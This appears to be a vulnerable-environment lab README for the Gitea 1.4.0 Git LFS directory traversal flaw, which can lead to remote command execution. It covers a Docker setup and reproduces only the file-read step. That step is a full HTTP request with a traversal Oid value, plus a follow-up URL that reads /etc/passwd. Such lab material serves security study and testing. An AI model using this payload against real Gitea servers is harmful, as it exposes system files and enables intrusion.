


# Gitea 1.4.0 Directory Traversal Leading to Remote Command Execution

[中文版本(Chinese version)](README.zh-cn.md)

Gitea is an open-source project forked from Gogs, providing a self-hosted platform similar to Github and Gitlab for managing Git repositories with multiple users. In version 1.4.0, there is a logic error that allows unauthorized users to traverse directories, read and write arbitrary files, ultimately leading to arbitrary command execution.

References:

- https://security.szurek.pl/gitea-1-4-0-unauthenticated-rce.html
- https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html

## Environment Setup

Execute the following command to start the vulnerable Gitea 1.4.0:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:3000` to enter the installation page. Fill in the administrator account and password, modify the website URL, and keep other settings as default. (Do not modify the port number)

After installation, create a public repository and add some files to it (for example, initialize the repository with selected files and templates):



Then, you need to execute `docker compose restart` to restart the Gitea service. (For the reason, see the second reference link)

## Vulnerability Reproduction

Since the vulnerability chain is quite complex overall, we will only reproduce the file reading part. For the remaining exploitation methods, please refer to the second reference link.

Open Gitea, find the public project you just created, such as `vulhub/repo`, and send the following data packet to add a Git LFS object:

```
POST /vulhub/repo.git/info/lfs/objects HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 151

{
    "Oid": "....../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```

Then, visit `http://your-ip:3000/vulhub/repo.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth`, and you can see that `/etc/passwd` has been successfully read:


